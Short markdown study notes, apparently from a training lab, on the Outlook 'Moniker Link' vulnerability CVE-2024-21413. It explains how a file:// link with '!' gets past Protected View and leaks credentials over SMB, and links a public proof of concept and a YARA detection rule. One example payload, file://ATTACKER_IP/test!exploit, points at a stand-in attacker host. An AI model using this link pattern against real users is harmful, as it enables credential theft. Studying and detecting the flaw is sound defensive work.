 ### Moniker Link
- a type of hyperlink
- https://learn.microsoft.com/en-us/windows/win32/com/url-monikers
- RISK:
  - Adding ! and extra text to a file:// link `(e.g., file://ATTACKER_IP/test!exploit)` bypasses Outlook’s Protected View, allowing access to the link.
  - This exploit uses the SMB protocol, which can expose local credentials to the attacker.
    
___


### Example Exploit made by CMNatic
- https://github.com/CMNatic/CVE-2024-21413

___


### Detection by Florian Roth
- Yara rule: https://github.com/Neo23x0/signature-base/blob/master/yara/expl_outlook_cve_2024_21413.yar
- https://x.com/cyb3rops/status/1758792873254744344
